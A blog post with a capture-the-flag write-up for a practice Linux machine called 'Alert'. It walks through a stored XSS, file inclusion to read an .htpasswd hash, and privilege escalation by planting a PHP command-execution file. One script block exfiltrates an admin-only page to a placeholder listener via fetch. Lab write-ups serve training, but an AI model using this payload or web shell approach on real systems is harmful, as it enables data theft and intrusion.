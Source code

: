 ```yaml
---
layout: post
title: "Alert-Linux-Easy"
date:   2025-07-15 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/6f4647030d6aadc676b8d8a459de344f.webp
---
```


# Alert

# 1. Enumeration
<br/><br/>
Start enumerating ports, there is a web application running, and a ssh service we may need to find some creds
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image.png' | relative_url }})
<br/><br/>
We can perform some actions like, view a .md file, exploring the web application there is a message suggesting report any trouble through contact us 
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_1.png' | relative_url }})
<br/><br/>
# 2. User flag
<br/><br/>
Let’s keep enumerating the machine listing directories, there is another one called messages, if we try to send a request to it it doesn’t show anything it may be allowed to show info only to admin
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_2.png' | relative_url }})
<br/><br/>
Messages is also present in here
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_3.png' | relative_url }})
<br/><br/>
We tried to upload js code to perform a xss attack, it seems to be vulnerable to it but there are no cookies to steal and we are not able to do anything else different from share the .md file, so we could attempt to fetch files as whoever is behind contact us and send that information to a listener we will set up
<br/><br/>
```jsx
<script>
fetch("http://alert.htb/index.php?page=messages")
	.then(response => response.text())
	.then(data => {
	fetch("http:/0.0.0.0:0000/?data=" + encodeURIComponent(data));
	})
	.catch(error => console.error("Error", error));
</script>
```
<br/><br/>
Send the payload but before clicking it in share, intercept the request, copy and paste the link and send it to contact us interface
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_4.png' | relative_url }})
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_5.png' | relative_url }})
<br/><br/>
It will be sent successfully
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_6.png' | relative_url }})
<br/><br/>
And we will receive the info in the netcat listener
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_7.png' | relative_url }})
<br/><br/>
Decode it using cyberchef, there is a .txt file on it and it is disclosing the way to access files with messages php script, there may be a LFI 
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_8.png' | relative_url }})
<br/><br/>
There is a Apache2 server running
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_9.png' | relative_url }})
<br/><br/>
Check default configuration files
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_10.png' | relative_url }})
<br/><br/>
It give us the whole configurations and the file where a password is stored
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_11.png' | relative_url }})
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_12.png' | relative_url }})
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_13.png' | relative_url }})
<br/><br/>
Check the content on .htpasswd
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_14.png' | relative_url }})
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_15.png' | relative_url }})
<br/><br/>
Albert hash found
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_16.png' | relative_url }})
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_17.png' | relative_url }})
<br/><br/>
Log in as Albert and  get user flag
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_18.png' | relative_url }})
<br/><br/>
# 3.Priv esc
<br/><br/>
To escalate privileges we found in `/opt/website-monitor` files that seems to run a web application, root is the owner but management group can performs some tasks in config files
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_19.png' | relative_url }})
<br/><br/>
Effectively we are part of management group
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_20.png' | relative_url }})
<br/><br/>
And there is a local service running on port 8080
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_21.png' | relative_url }})
<br/><br/>
We could forward that port to get more information of this, but i think that we have the necessary to elevate our privileges, furthermore we have the base path where files are requested
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_22.png' | relative_url }})
<br/><br/>
1. Create a new .php file opening the door to get requests executing commands
2. Make a request executing whatever command we want through the file we’ve created previously
<br/><br/>
![image.png]({{ '/assets/images/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f/3e854f1a-8a8b-4b37-9bc5-8386b8120cde-export-e09da6b1-e978-45e9-bc64-ad20c15a921f_image_23.png' | relative_url }})
<br/><br/>
Machine Pwned!!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
